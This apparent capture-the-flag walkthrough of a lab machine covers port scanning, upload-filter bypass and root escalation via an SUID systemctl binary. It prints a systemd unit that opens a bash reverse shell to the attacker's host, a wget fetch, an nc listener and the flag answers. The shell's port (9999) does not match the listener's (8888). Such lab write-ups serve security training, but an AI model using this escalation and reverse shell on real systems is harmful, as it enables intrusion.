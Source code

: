 # Reconnaissance

### Scan the box, how many ports are open?
```
# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer:* 6

### What version of the squid proxy is running on the machine?
```
# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer:* 3.5.12

### How many ports will nmap scan if the flag -p-400 was used?
> *Answer:* 400

### Using the nmap flag -n what will it not resolve?
> *Answer:* DNS

### What is the most likely operating system this machine is running?
```
# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* Ubuntu

### What port is the web server running on?
```
# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* 3333


<br>
# Locating directories

### What is the directory that has an upload form page?
```
# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer:* /internal/

# Compromise the webserver

### Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer:* .php

### Run this attack, what extension is allowed?
> *Answer:* .phtml

### What is the name of the user who manages the webserver?
```
$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer:* bill

### What is the user flag?
```
$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer:* 8bd7992fbe8a6ad22a63361004cfcedb

# Privilege Escalation

### On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer:* /bin/systemctl

### Become root and get the last flag (/root/root.txt)
```
/var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ip_address_of_my_attackbox/9999 0>&1'

[Install]
wantedBy=multi-user.target
# systemctl restart apache2
$ cd /tmp
$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root.service
# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer:* a58ff8579f0a9270368d33a9966c7fd5


